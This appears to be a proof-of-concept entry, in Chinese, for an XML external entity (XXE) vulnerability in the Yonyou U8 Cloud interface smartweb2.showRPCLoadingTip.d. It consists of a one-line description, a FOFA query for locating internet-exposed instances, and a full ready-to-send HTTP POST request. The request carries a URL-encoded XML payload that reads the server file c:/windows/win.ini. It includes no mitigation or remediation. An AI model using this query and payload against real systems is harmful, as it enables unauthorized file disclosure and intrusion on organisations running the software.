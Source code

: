 ## 用友U8-Cloud-smartweb2.showRPCLoadingTip.d存在XXE漏洞

用友U8 Cloud smartweb2.showRPCLoadingTip.d 接口处存在XML实体，攻击者可通过该漏洞获取敏感文件信息，攻击者添加恶意内容，通过易受攻击的代码，就能够攻击包含缺陷的XML处理器

## fofa

```
app="用友-U8-Cloud"
```

## poc

```
POST /hrss/dorado/smartweb2.showRPCLoadingTip.d?skin=default&__rpc=true&windows=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
 
__type=updateData&__viewInstanceId=nc.bs.hrss.rm.ResetPassword~nc.bs.hrss.rm.ResetPasswordViewModel&__xml=%3C%21DOCTYPE+z+%5B%3C%21ENTITY+test++SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fwin.ini%22+%3E%5D%3E%3Crpc+transaction%3D%221%22+method%3D%22resetPwd%22%3E%3Cdef%3E%3Cdataset+type%3D%22Custom%22+id%3D%22dsResetPwd%22%3E%3Cf+name%3D%22user%22%3E%3C%2Ff%3E%3C%2Fdataset%3E%3C%2Fdef%3E%3Cdata%3E%3Crs+dataset%3D%22dsResetPwd%22%3E%3Cr+id%3D%221%22+state%3D%22insert%22%3E%3Cn%3E%3Cv%3E1%3C%2Fv%3E%3C%2Fn%3E%3C%2Fr%3E%3C%2Frs%3E%3C%2Fdata%3E%3Cvps%3E%3Cp+name%3D%22__profileKeys%22%3E%26test%3B%3C%2Fp%3E%3C%2Fvps%3E%3C%2Frpc%3E
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262216172.png)